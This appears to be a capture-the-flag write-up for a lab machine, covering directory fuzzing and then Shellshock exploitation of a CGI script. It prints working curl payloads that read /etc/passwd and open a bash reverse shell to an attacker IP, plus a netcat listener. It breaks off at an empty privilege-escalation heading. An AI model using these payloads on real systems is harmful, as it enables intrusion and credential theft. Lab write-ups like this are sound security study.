

# Enumeration
 </br>
I navigated to the website on port 80: </br>
 </br>
Didn't see anything special in the source code, so I moved on to the fuzzing scan: </br>
```gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30``` </br>
The only thing I came across with was ```/cgi-bin``` directory,
and with a little help of google, I figured that I might be able to exploit the Shellshock vulnerability. </br> </br>
**ShellShock (CVE-2014-6271):** was a vulnerability in Bash which was disclosed on 24 September 2014.
Shellshock could enable an attacker to cause Bash to execute arbitrary commands and gain unauthorized access
to many Internet-facing services, such as web servers, that use Bash to process requests. </br>
the cgi-bin directory compiles and executes perl and shell scripts, rather than store them as basic HTML docs. </br> </br>
So I used gobuster again, this time with specific extensions to see if there is any script under the /cgi-bin directory: </br>
```gobuster dir -u http://10.10.10.56/cgi-bin/ -x .php,.html,.txt,.sh -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30``` </br>
I found a script called user.sh located in the /cgi-bin/ directory. </br>
To exploit it I used this one-liner from [GitHub](https://github.com/opsxcq/exploit-CVE-2014-6271): </br>
```bash
curl -H “user-agent: () { :; }; echo; echo; /bin/bash -c ‘cat /etc/passwd’ ” \
http://10.10.10.56/cgi-bin/user.sh
``` 
</br>

To get a reverse shell I changed it to this: </br>
```bash
curl -A "() { :; }; echo Content-Type: text/plain ; echo ; echo ; /bin/bash -i >& /dev/tcp/10.10.14.32/1234 0>&1" http://10.10.10.65/cgi-bin/user.sh
``` 
</br>

And opened a netcat listener on another terminal with: ```nc -nlvp 1234``` </br>
And it worked: </br>
```bash
root@kali nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.32] from (UNKNOWN) [10.10.10.56] 45314
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$
``` </br>

# Privilege Escalation: 


